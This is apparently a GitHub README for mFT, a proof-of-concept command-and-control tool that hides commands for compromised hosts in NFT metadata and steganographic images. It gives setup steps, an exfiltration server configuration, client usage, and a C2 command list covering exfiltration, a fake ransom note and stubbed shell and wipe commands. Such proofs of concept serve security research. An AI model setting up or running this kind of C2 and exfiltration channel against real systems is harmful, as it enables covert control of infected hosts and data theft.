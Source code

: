 # mFT - Malicious Fungible Token

mFT is a Web3 based C2 PoC that leverages Non-Fungible Tokens (NFTs) as a mechanism for hosting and transmitting commands to compromised or infected hosts abusing common fields like "Description", Traits, EXIF metadata and steganographically hidden messages.

## A note about this PoC

This PoC does not conduct any malicious activity (options for wiping or encrypting drives are merely present to illustrate capabilities). 

I fully understand that OpenSea NFT's are *not stored on-chain* but rather *made resilient by using IPFS, FileCoin and other technologies*. 

This is just a PoC to see how far things could go on a *off-chain* NFT system. Otherwise, I would have jumped straight away into developing a fully *on-chain* PoC (which surely would have been easier and less painful).

- Steganographic messages were generated using https://stylesuxx.github.io/steganography/. 
- ROT-13 function originally written by zhisme.

## Requirements

Install dependencies:

```bash
#Gems. Note: Using thin 1.8.2 requires rack to be under v3.0.0, which conflicts with using the newer sinatra (4.0).
bundle install

#Exiftool
apt install exiftool

#Make sure both zsteg and exiftool binaries are referenced on your PATH
```

Configure your OpenSea API Key in the `config.rb` file:

```ruby
$sea_apikey = "YOUR_API_KEY_HERE"
```

## mFT Exfil Server (mFTExfil.rb)

The exfiltration tool will start a web server which will log any data exfiltrated by mFT clients.

Custom address and port can be configured in the `config.rb` file:

```ruby
#Exfil Server default IP
$ex_default_address = "0.0.0.0"

#Exfil Server default Port
$ex_default_port = 4444
```

## mFT (mFT.rb)

This tool has the capability to both read and execute a malicious payload contained within an NFT. 
It also offers the functionality to provide an execution plan and generate custom payloads for specific purposes. 
Furthermore, if required, the tool can list all NFTs associated with a given address and retrieve detailed information about each one individually.

```ruby
          _____ _____           _ _ _     _   ___    _____ _ _         _   
    _____|   __|_   _|   ___   | | | |___| |_|_  |  |     | |_|___ ___| |_ 
   |     |   __| | |    |___|  | | | | -_| . |_  |  |   --| | | -_|   |  _|
   |_|_|_|__|    |_|           |_____|___|___|___|  |_____|_|_|___|_|_|_|                                                                   
                                      mFT - Client v0.01 - Mauro Eldritch     

Usage: mFT [options]
    -g, --generate                              Generate a malicious payload
    -x ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --execute                               Execute a specific NFT's malicious payload
    -d ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --decode                                Decode a specific NFT's malicious payload
    -l, --list ACCOUNT,BLOCKCHAIN               List account NFTs
    -i ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --info                                  Get details for a specific NFT
```

### C2 Commands List

- `id`: Grabs hostname and IP address.
- `exfil`: Attempts to exfiltrate information via a POST request against the exfiltration server.
- `encrypt`: Dummy command which should encrypt the filesystem, but only creates a fake ransom note on the desktop.
- `shell`: Dummy command which should open a reverse shell **(not implemented)**.
- `wipe`: Dummy command which should wipe the filesystem **(not implemented)**.

### Test Contract & NFT

A test collection was published for users to run local tests. Use the NFT Address `0xd838b011c90643b6623393a94405a5e3c199b1fc` with ID `1` or `2` and `ethereum` blockchain on the examples below. The collection features my golden retriever and partner in crime Leopoldo, better known as "Golden Locker" or "*Treat* Actor" in the underground.

- NFTs: https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/1 & https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/2
- Holder (my test account): `0x942773F094f0C170AB8835e28f9B0b0b223e043A`
- Collection: https://opensea.io/collection/malicious-fungible-tokens 
- Contract: https://etherscan.io/token/0xd838b011c90643b6623393a94405a5e3c199b1fc 

### Examples:

```bash
#Note: Blockchain argument is optional for all cases. Default value: "ethereum".

#Run Exfiltration Server
ruby mFTExfil.rb

#Generate a payload interactively
ruby mFT.rb -g

#List all NFTs from a given address
ruby mFT.rb -l "0x942773F094f0C170AB8835e28f9B0b0b223e043A"

#Decode and explain a payload step by step ("2" can be used as the second parameter)
ruby mFT.rb --decode "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Execute a payload ("2" can be used as the second parameter)
ruby mFT.rb --execute "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Get information for a specific NFT ("2" can be used as the second parameter)
ruby mFT.rb --info "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"
```

## See also

- The Hacker News - EtherHiding: https://thehackernews.com/2023/10/binances-smart-chain-exploited-in-new.html
- Guardio Labs - EtherHiding: https://labs.guard.io/etherhiding-hiding-web2-malicious-code-in-web3-smart-contracts-65ea78efad16
